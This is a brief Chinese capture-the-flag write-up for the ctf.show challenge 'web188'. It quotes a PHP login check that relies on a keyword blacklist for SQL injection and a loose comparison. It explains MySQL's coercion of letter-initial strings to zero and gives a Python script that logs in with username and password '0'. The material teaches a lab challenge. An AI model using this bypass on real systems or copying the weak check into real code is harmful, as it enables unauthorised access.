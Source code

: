 ### web188

```
  //用户名检测
  if(preg_match('/and|or|select|from|where|union|join|sleep|benchmark|,|\(|\)|\'|\"/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==intval($password)){
      $ret['msg']='登陆成功';
      array_push($ret['data'], array('flag'=>$flag));
    }
      
```

mysql中字母与数字的比较过程：

以字母为开头的字符型数据在与数字型比较时，会强制转化为0，再与数字比较（这里很类似于PHP的弱比较）
假设我们username为0，那么就会相等，从而匹配成功

在这里的password是用0来混字母开头的$row['pass']

```
import requests

url = 'http://106c7788-8a93-4a71-ab55-e09f7ecddca2.challenge.ctf.show/api/'

payload = {
    "username":"0",
    "password":"0"
}

res = requests.post(url=url,data=payload).text

print(res)

```
